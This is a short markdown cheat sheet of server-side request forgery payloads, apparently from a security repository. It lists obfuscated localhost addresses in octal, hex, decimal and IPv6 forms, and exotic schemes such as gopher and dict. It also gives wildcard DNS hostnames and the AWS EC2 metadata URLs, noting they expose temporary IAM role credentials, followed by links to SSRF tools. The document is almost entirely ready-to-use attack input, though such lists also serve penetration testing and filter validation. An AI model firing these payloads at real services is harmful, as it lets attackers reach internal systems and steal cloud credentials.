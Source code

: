 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
http://127.000.000.1
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

**AWS EC2 Metadata**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role [...]

_Link:_ http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)


- [SSRF Bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit)
- [psychoPATH](https://github.com/ewilded/psychoPATH)
- [IP Obfuscator](https://github.com/C-REMO/Obscure-IP-Obfuscator)
- [SSRF Detector](https://github.com/JacobReynolds/ssrfDetector)
- [Ground control](https://github.com/jobertabma/ground-control)

